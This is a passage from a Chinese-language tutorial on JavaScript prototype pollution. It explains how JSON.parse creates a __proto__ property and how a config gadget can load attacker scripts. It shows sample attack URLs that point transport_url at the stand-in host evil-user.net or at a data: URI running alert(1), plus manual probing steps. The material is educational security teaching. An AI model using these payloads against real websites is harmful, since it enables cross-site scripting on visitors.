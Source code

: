 再通过`JSON.parse()`方法将它转换为JavaScript对象，生成的对象就会具有`__proto__`这样的property。

```javascript
const objectLiteral = { __proto__: { evilProperty: "payload" } };
const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}');

objectLiteral.hasOwnProperty("__proto__"); // false
objectFromJson.hasOwnProperty("__proto__"); // true
```

如果这样的对象与现有对象合并，并且没有进行适当的过滤，就可以导致prototype污染。

### 例子

很多JavaScript库允许开发者给对象使用不用的配置选项。库代码检查开发人员是否显示地向对象添加属性，如果添加则会相应地调整配置。如果特定选项的property不存在就会使用预定义的默认选项。

```javascript
let transport_url = config.transport_url || defaults.transport_url;
```

假设库代码使用`transport_url`向页面添加一个脚本引用

```javascript
let script = document.createElement("script");
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

如果网站开发者为由为`config`对象设置`transport_url`property的话，这就是一个gadget。攻击者可以利用自己的`transport_url`污染全局`Object.prototype`，这将被`config`对象继承。脚本的`src`也被设置为攻击者指定的域名。

如果这个prototype可以被查询参数污染，受害者只需点击下方链接即可从攻击者指定的域中导入一个JS文件

```
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
```

攻击者可以直接诶嵌入XSS的payload，例如

```
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//
```

上述URL后面的`//`时为了绕过`/example.js`后缀

## 发现漏洞

### 寻找污染点

#### 手工挖掘

手工挖掘就是试错，尝试采用不同的方法向`Object.prototype`添加任意的property。

1 .尝试去在一些地方注入任意的property，比如：

- vulnerable-website.com/?\_\_proto\_\_[foo]=bar

2 .在浏览器console检查`Object.prototype`以确认这个property是否成功污染了它
3 .如果property没有被添加到全局prototype中，尝试不同的方法，比如用`.`而不是`[]`：
